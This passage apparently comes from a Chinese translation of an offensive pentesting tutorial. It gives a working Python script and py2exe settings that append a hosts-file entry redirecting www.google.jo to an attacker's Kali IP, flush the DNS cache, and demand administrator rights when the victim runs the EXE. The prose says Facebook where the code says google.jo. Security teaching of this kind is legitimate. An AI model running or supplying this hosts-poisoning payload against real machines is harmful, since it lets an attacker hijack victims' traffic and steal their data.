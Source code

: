 1.  我们将停止捕获并恢复原始的`hosts`文件。然后，我们将把这个文件放到`drivers\etc`文件夹中。

1.  现在，让我们先通过运行以下命令来刷新被污染的 DNS 缓存：

```
ipconfig /flushdns
```

1.  然后，再次打开浏览器。我们现在应该访问[`www.google.jo/?gws_rd=ssl`](https://www.google.jo/?gws_rd=ssl)。现在我们可以开始了！

# 使用 Python 脚本

现在，我们将自动化这些步骤，但这次通过 Python 脚本来完成。

打开脚本并输入以下代码：

```
# Python For Offensive PenTest

# DNS_Poisoning

import subprocess
import os

os.chdir("C:\Windows\System32\drivers\etc") # change the script directory to ..\etc where the host file is located on windows

command = "echo 10.10.10.100 www.google.jo >> hosts" # Append this line to the host file, where it should redirect
                                                      # traffic going to google.jo to IP of 10.10.10.100
CMD = subprocess.Popen(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)

command = "ipconfig /flushdns" # flush the cached dns, to make sure that new sessions will take the new DNS record
CMD = subprocess.Popen(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
```

我们要做的第一件事是将当前工作目录更改为与`hosts`文件相同的位置，这将通过`OS`库来完成。然后，使用子进程，我们将附加一个静态 DNS 记录，将 Facebook 指向`10.10.10.100`：Kali 的 IP 地址。在最后一步，我们将刷新 DNS 记录。现在我们可以保存文件并将脚本导出为 EXE。

记住，我们需要让目标以管理员身份执行它。为此，在`py2exe`的设置文件中，我们将添加一行，如下所示：

```
...
   windows = [{'script': "DNS.py", 'uac_info': "requireAdministrator"}],
...
```

所以，我们添加了一个新选项，指定当目标执行 EXE 文件时，我们将要求提升我们的权限为管理员。为此，我们将需要管理员权限。

让我们运行设置文件并开始新的捕获。现在，我将我们的 EXE 文件复制到桌面。注意这里，我们看到一个小盾牌，表示这个文件需要管理员权限，这将为我们提供运行管理员权限的确切结果。现在，让我们运行该文件。验证文件的 host 是否已被修改。你将看到我们的行已被添加。

现在，打开一个新的会话，我们将看看是否获得了重定向。我们开始一个新的捕获，并将其添加到 Firefox 中。正如你所看到的，`google.jo`的 DNS 查找指向了我们的 IP 地址，即`10.10.10.100`。

